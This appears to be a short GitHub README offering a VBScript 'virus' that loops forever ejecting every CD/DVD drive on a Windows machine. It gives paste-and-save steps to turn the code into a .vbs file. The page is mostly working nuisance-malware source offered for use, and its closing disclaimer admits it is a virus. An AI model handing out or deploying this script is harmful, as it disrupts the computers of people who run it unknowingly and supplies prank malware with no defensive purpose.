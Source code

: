 # Continious Cd Drive Popup VBS Virus
This code will Continuously Popup Cd/Dvd/Drive ROMs From The System After Executing The Files. 
<br>
<br>
copy the following code in notepad and save that with .vbs extention
```
Set oWMP = CreateObject(”WMPlayer.OCX.7″)
 Set colCDROMs = oWMP.cdromCollection
 do
 if colCDROMs.Count >= 1 then
 For i = 0 to colCDROMs.Count – 1
 colCDROMs.Item(i).Eject
 Next
 For i = 0 to colCDROMs.Count – 1
 colCDROMs.Item(i).Eject
 Next
 End If
 wscript.sleep 100
 loop
```
# DisclaimerThis Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

